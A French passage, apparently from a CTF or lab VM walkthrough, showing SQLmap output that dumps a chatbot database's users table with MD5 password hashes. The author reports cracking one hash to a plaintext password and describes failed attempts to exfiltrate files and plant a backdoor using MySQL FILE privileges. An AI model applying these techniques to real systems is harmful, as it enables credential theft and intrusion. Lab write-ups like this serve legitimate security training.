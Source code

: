 En jouant avec les différentes options de SQLmap j'ai extrait les infos suivantes :  

```plain
current user: 'webuser@localhost'

available databases [5]: 
[*] chatbot_db 
[*] information_schema 
[*] mysql 
[*] performance_schema 
[*] sys

Database: chatbot_db 
[6 tables] 
+---------------+ 
| frequent_asks | 
| questions     | 
| responses     | 
| system_info   | 
| unanswered    | 
| users         | 
+---------------+

Database: chatbot_db 
Table: users 
[2 entries] 
+----+-------------------------------+----------+----------------------------------+----------------------------------+--------------+---------------------+---------------------+---------------------+ 
| id | avatar                        | username | lastname                         | password                         | firstname    | last_login          | date_added          | date_updated        | 
+----+-------------------------------+----------+----------------------------------+----------------------------------+--------------+---------------------+---------------------+---------------------+ 
| 1  | uploads/1620201300_avatar.png | <blank>  | 0192023a7bbd73250516f069df18b500 | admin                            | Adminstrator | Admin               | 2021-01-20 14:02:37 | 2021-05-05 15:55:28 | 
| 2  | <blank>                       | tommy    | <blank>                          | e532ae6f28f4c2be70b500d3d34724eb | tommy        | 2021-01-20 14:02:37 | 2021-01-20 14:02:37 | 2021-01-20 14:02:37 | 
+----+-------------------------------+----------+----------------------------------+----------------------------------+--------------+---------------------+---------------------+---------------------+
```

Le mot de passe de *tommy* se casse lui aussi sur CrackStation en *password19*. Ces identifiants ne permettent toutefois pas un accès SSH.  

L'option *--privileges* de SQLmap indique que l'utilisateur courant dispose de permissions similaires à l'utilisateur *root* de MySQL avec par exemple la permission *FILE*. J'ai tenté d'exfiltrer des fichiers et de déposer une backdoor sur la VM mais rien n'a fonctionné.  
